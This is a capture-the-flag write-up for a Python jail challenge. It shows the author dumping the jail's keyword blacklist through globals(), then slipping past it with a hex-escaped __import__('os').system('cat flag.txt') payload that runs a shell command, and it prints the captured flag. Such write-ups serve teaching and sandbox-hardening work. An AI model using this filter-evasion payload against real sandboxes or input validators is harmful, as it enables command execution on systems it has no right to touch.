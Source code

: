 # Generic Pyjail - Misc

### [~$ cd ..](../)

>genericpyjail
>
>Written by: dns
>
>When has a blacklist of insecure keywords EVER failed?
>
>nc chall2.2019.redpwn.net 6006

I really love python and Pyjail!

We were given the list of blacklisted words, but I actually didn't even notice it! The first thing I did was :

```
wow! there's a file called flag.txt right here!
>>> globals()
Traceback (most recent call last):
  File "jail1.py", line 52, in <module>
    exec(data)
  File "<string>", line 1
    {'no': 'file', '__builtins__': <module '__builtin__' (built-in)>, '__file__': 'jail1.py', '__package__': None, 'banned': ['import', 'ast', 'eval', '=', 'pickle', 'os', 'subprocess', 'i love blacklisting words!', 'input', 'sys', 'windows users', 'print', 'execfile', 'hungrybox', 'builtins', 'open', 'most of these are in here just to confuse you', '_', 'dict', '[', '>', '<', ':', ';', ']', 'exec', 'hah almost forgot that one', 'for', '@dir', 'yah have fun', 'file'], '__name__': '__main__', 'data': {...}, '__doc__': None, 'print_function': _Feature((2, 6, 0, 'alpha', 2), (3, 0, 0, 'alpha', 0), 65536)}
                                   ^
SyntaxError: invalid syntax
```

and I then knew which words were prohibited!

Trying some basic inputs gave some valuable hints about what was going on:

```
wow! there's a file called flag.txt right here!
>>> test
Traceback (most recent call last):
  File "jail1.py", line 49, in <module>
    data = eval(data)
  File "<string>", line 1, in <module>
NameError: name 'test' is not defined
```

We then had to feed `eval` with non-blacklisted words, such as escaped sequences (`import` was normally prohibited):

```
wow! there's a file called flag.txt right here!
>>> '\x69\x6d\x70\x6f\x72\x74'
Traceback (most recent call last):
  File "jail1.py", line 52, in <module>
    exec(data)
  File "<string>", line 1
    import
         ^
SyntaxError: invalid syntax
```

The attack was then trivial. We only had to encode `__import__('os').system('cat flag.txt')` and get our reward:

```
wow! there's a file called flag.txt right here!
>>> '\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x74\x78\x74\x27\x29'
flag{bl4ckl1sts_w0rk_gre3344T!}
```

FLAG: **flag{bl4ckl1sts_w0rk_gre3344T!}**

EOF
